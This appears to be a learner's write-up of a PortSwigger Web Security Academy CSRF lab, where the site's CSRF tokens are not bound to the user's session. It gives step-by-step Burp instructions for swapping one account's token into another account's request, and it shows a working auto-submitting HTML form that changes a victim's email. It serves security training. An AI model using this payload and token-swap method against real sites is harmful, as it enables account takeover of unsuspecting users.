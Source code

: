 # CSRF where token is not tied to user session

## This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

## To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

## You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

### HINT:

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
  <label>Email</label>
  <input
    required
    type="email"
    name="email"
    value="example@normal-website.com"
  />
  <input
    required
    type="hidden"
    name="csrf"
    value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"
  />
  <button class="button" type="submit">Update email</button>
</form>
```

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0a0000ac0443861d809a260100f200dd.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="example@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

### step 1

login wiener account

intercept update email then drop and click back to browser page so that email not update

### step2

long carlos account
intercept update email and send to repeter and drop the intercept request and click back to browser page so that email not update
and note down csrf token

stpe 3
update wiener account email and intercept request and change csrf token with carlos token from repeter
forword intercept off email will successfully updated

step4

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0a0000ac0443861d809a260100f200dd.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="example@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

copy the above html code to expolit url

### step5

update carlos email and intercept copy csrf and drop request
change the csrf value into html code and deliver

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0a0000ac0443861d809a260100f200dd.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="example@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="kPOe5Zwo9kelXjXA7PlYV605jy3oaheL"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
